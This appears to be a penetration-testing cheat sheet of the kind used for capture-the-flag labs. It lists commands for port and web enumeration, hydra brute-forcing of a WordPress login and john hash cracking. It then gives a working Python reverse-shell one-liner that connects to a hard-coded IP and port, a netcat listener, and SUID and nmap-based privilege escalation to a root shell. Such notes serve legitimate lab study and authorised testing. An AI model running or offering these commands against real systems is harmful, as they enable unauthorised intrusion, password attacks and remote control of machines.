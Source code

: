# Port Enumeration

## NMAP
```bash
mkdir -p scans/nmap
nmap -v -sC -sV -oN nmap/initial $IP
nmap -v -p- -oN nmap/all_ports $IP
```





# Web Tools

## Gobuster
```bash
mkdir -p scans/gobuster
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/medium_list -x php,sh,cgi,txt,html,js,css,py
```

## Nikto
```bash
mkdir nikto
nikto -h http://$IP | tee nikto/results
```




# Brute Force

## Hydra
```bash
# Format
# sudo hydra -L <Username/List> -P <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"

sudo hydra -l Username -P passwordlist.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR"
```

## John
```bash
john --wordlist=/usr/share/wordlist/rockyou.txt --format=Raw-MD5 hash.txt
```





# Reverse Shell

## Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.30.23",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Netcat
```bash
nc -lvnp 9999
```

## Stable
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```






# Privilege Escalation

## Finding SUID
```bash
# Find SUID binaries
find / -perm -u=s -type f 2> /dev/null
```

## Tools

### NMAP
```bash
nmap --interactive
!sh
```






# Useful Websites
- https://gtfobins.github.io/
- https://github.com/JohnHammond/poor-mans-pentest
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
